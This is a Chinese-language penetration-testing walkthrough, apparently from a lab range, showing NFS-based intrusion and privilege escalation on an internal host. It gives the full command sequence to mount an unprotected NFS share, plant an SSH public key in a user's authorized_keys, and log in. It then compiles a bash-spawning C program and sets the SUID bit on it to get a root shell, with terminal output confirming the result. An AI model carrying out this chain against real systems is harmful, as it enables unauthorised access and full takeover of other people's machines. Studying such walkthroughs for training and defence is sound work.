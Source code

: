 ### 渗透 NFS 服务 ftp 提权

学习一篇提权文章：[https://xz.aliyun.com/t/11664?time\_\_1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12](https://xz.aliyun.com/t/11664?time__1311=mqmx0DBDuDcD2QD9DBuQ1GkQBx8GxAEDmiD#toc-12)  
这里我们来到第一个拿到 `shell` 的主机，通过 `fscan` 可知 `172.22.13.57` 是存在 `NFS` 服务提权漏洞的  
我们来到根目录，新建一个目录进行`挂载`

```plain
#渗透 NFS 服务
sudo sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
sudo apt-get update
apt-get install nfs-common -y

# 查看共享
showmount -e 172.22.13.57
cd /
mkdir test
mount -t nfs 172.22.13.57:/ ./test -o nolock

## 挂载后，证书服务生成，将公钥传给 joyce@172.22.13.57
ssh-keygen -t rsa -b 4096
cd /test/home/joyce/
mkdir .ssh
cat /root/.ssh/id_rsa.pub >> /test/home/joyce/.ssh/authorized_keys
python3 -c 'import pty;pty.spawn("/bin/bash")'
ssh  -i /root/.ssh/id_rsa joyce@172.22.13.57
```

上传 `bash.c`，进行编译。利用 `ftp` 存在 suid 权限成功提权

[![](assets/1710899037-58de9f9377537159075dda201db6294c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205247-1b671ac4-d56f-1.png)

> 整理命令  
> 上传一个反弹 shell 的 c 文件 `bash.c`

```plain
root@ubuntu:/temp/home/joyce# chmod -s bash.c
root@ubuntu:/temp/home/joyce# gcc bash.c -o exp
bash.c: In function ‘main’:
bash.c:6:2: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    6 |  system("bash");
      |  ^~~~~~
root@ubuntu:/temp/home/joyce# chmod +s exp
root@ubuntu:/temp/home/joyce# ls -al
total 52
drwx------ 3  996  994  4096 Feb 15 17:15 .
drwxr-xr-x 4 root root  4096 Aug 10  2022 ..
-rw-r--r-- 1 root root    76 Feb 15 17:15 bash.c
-rw------- 1  996  994   172 Feb 15 17:13 .bash_history
-rw-r--r-- 1  996  994    18 Nov 25  2021 .bash_logout
-rw-r--r-- 1  996  994   193 Nov 25  2021 .bash_profile
-rw-r--r-- 1  996  994   231 Nov 25  2021 .bashrc
-rwsr-sr-x 1 root root 16784 Feb 15 17:15 exp
drwxr-xr-x 2 root root  4096 Feb 15 17:08 .ssh
```